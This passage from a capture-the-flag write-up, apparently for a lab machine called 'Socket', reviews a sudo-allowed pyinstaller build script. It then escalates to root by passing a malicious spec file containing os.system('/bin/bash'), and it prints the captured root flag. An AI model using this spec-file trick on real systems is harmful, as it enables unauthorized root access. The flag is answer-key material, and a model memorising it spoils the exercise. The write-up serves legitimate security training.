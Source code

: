 ```bash
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

Reading through the script, the `build` action combined with a `spec` file gives me most control over the arguments passed to pyinstaller. From the [PyInstaller docs](https://pyinstaller.org/en/stable/spec-files.html) I learn that spec files are little Python scripts that can be passed to the program, which get executed during the build process. The docs show an example spec file:

```python
block_cipher = None
a = Analysis(['minimal.py'],
         pathex=['/Developer/PItests/minimal'],
         binaries=None,
         datas=None,
         hiddenimports=[],
         hookspath=None,
         runtime_hooks=None,
         excludes=None,
         cipher=block_cipher)
pyz = PYZ(a.pure, a.zipped_data,
         cipher=block_cipher)
exe = EXE(pyz,... )
coll = COLLECT(...)
```

Given this is all plain Python code. I wonder if I can create a minimal spec file that executes `/bin/bash`:

```python
tkeller@socket:~$ cd /tmp
tkeller@socket:/tmp$ echo 'import os;os.system("/bin/bash")'  > my.spec
tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build my.spec
423 INFO: PyInstaller: 5.6.2
424 INFO: Python: 3.10.6
425 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
429 INFO: UPX is not available.
root@socket:/tmp# whoami
root
root@socket:/tmp#
```

And it worked. When PyInstaller executed the spec, my malicious spec file spawned bash via the `os` module.

Now I can read `root.txt`:

```python
root@socket:/tmp# cd /root

root@socket:~# cat root.txt
c0ac7b2aed1a8fb8cdc4be85b0036c75
```

